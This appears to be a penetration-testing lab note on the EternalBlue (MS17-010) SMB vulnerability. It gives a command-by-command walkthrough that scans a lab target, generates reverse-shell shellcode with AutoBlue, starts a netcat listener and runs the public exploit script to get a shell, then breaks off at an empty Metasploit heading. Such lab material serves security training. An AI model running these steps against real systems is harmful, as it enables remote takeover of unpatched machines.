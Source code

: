 * Microsoft released a patch for the vulnerability in March 2017, howerver many users and companies have still not yet patched their systems.
* Then EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
* In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

#### Lab

**First method (AutoBlue)**

The tools is **AutoBlue-MS17-010** from https://github.com/3ndG4me/AutoBlue-MS17-010.

```bash
john@attack> nmap -sV -p 445 --script=smb-vuln-ms17-010 10.10.10.12
```

<figure><img src="../../.gitbook/assets/46.png" alt=""><figcaption></figcaption></figure>

```bash
john@attack> git clone https://github.com/3ndG4me/AutoBlue-MS17-010
john@attack> cd AutoBlue-MS17-010
john@attack> pip install -r requirements.txt
john@attack> cd shellcode
john@attack> chmod +x shell.prep.sh
john@attack> ./shell_prep.sh

# auto generate a reverse shell with msfvenom : y
# LHOST for reverse connection                : 10.10.10.10
# LPORT you want x64 to listen on             : 1234
# LPORT you want x86 to listen on             : 1234
# generate a meterpreter/regular shell        : 1
# generate a staged/stageless payload         : 1
```

Shellcodes generated : `sc_x64.bin` `sc_x86.bin`

```bash
# TAB 0
john@attack> nc -lnvp 1234
```

```bash
# TAB 1
john@attack> chmod +x eternalblue_exploit7.py
john@attack> python eternalblue_exploit7.py 10.10.10.12 shellchode/sc_x64.bin
```

```bash
# TAB 0
C:\Windows\system32> whoami
```

**Second method (MSF)**
